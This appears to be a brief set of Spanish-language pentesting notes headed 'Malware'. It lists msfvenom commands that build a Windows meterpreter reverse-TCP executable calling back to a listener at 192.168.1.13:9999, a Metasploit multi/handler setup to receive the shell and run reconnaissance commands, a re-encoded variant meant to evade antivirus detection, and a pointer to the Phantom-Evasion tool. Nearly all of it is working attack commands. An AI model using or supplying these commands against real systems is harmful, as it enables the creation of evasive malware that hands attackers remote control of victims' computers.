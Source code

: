 # Malware

## Msfvenom
`msfvenom -l payloads` --> listado de payloads

`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.13 lport=9999 -f exe -o poc.exe` --> crea archivo poc.exe


`metasploit` --> `use multi/handler`
~~~
set payload windows/meterpreter/reverse_tcp
show options
set lport 9999
exploit
whoami
tasklist
netstat -anno
~~~

`msfvenom -l encoders`

`msfvenom -p windows/meterpreter/reverse_tcp -i 10 -e x86/shikata_ga_nail lhost=192.168.1.13 lport=9999 -f exe -o poc.exe` --> crea archivo poc.exe

## Phantom Evasion
/apps/evasion/phanton/Phantom-Evasion
`python3 phantom-evasion.py` 
